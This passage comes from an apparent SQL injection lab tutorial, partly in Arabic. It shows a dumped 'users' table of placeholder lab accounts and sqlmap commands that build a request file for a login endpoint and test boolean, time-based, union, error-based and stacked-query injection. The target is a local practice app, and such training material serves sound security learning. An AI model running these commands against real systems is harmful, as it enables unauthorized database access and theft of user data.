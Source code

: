 ### 💎 **Phase 5: Extracted User Data**
```
Database: sqli_lab
Table: users
[5 entries]
+----+----------+------------------+------------+-----------+-------+----------+
| id | username | email            | first_name | last_name | role  | password |
+----+----------+------------------+------------+-----------+-------+----------+
| 1  | admin    | admin@lab.com    | Admin      | User      | admin | hash123  |
| 2  | john     | john@lab.com     | John       | Doe       | user  | hash456  |
| 3  | jane     | jane@lab.com     | Jane       | Smith     | user  | hash789  |
| 4  | test     | test@lab.com     | Test       | Account   | user  | test123  |
| 5  | guest    | guest@lab.com    | Guest      | User      | guest | guest123 |
+----+----------+------------------+------------+-----------+-------+----------+
```

---

## 🔧 **تقنيات SQLMap المتقدمة**

### 1. **استخدام Request Files:**
```bash
# إنشاء ملف طلب
echo 'POST /api/level1 HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"username":"admin","password":"test"}' > request.txt

# استخدام الملف
sqlmap -r request.txt --batch --level=3 --risk=3
```

### 2. **تقنيات الحقن المختلفة:**
```bash
# Boolean-based blind
sqlmap -u "target" --technique=B

# Time-based blind  
sqlmap -u "target" --technique=T

# Union query
sqlmap -u "target" --technique=U

# Error-based
sqlmap -u "target" --technique=E

# Stacked queries
sqlmap -u "target" --technique=S

# جميع التقنيات
sqlmap -u "target" --technique=BEUST
```
